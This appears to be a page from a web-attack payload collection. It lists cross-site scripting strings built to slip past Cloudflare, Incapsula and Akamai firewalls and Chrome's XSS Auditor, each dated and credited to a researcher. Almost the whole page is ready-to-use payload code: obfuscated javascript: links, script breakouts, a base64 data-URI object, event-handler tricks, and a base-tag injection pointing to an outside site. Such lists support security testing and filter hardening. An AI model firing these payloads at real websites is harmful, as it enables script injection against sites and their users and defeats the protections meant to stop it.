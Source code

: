 ### Cloudflare XSS Bypass - 27th february 2018

```html
<a
  href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;"
  >X</a
>
```

### Chrome Auditor - 9th august 2018

```javascript
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic -
[https://brutelogic.com.br/xss.php](<https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B>)

### Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th march 2018

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

### Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th september 2018

```javascript
<object data="data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th may 2019

```html
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

### Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th june 2018

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

### Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th october 2018

```html
<dETAILS%0aopen%0aonToGgle%0a
  ="%0aa"
  ="prompt,a()"
  x
></dETAILS%0aopen%0aonToGgle%0a>
```
